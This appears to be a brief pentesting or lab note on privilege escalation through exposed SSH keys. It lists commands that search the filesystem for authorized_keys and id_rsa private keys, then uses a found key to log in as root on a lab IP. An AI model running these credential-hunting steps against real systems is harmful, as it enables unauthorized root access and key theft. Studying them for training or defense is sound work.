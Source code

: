 # Identification
----
- `find / -name authorized_keys 2>/dev/null`
	- **To find users that logged in using ssh previously**
- `find / -name id_rsa 2>/dev/null`
- ![[Pasted image 20250427164910.png]]

# Exploitation
---
- `chmod 600 id_rsa`
- `ssh -i id_rsa root@10.11.135.78`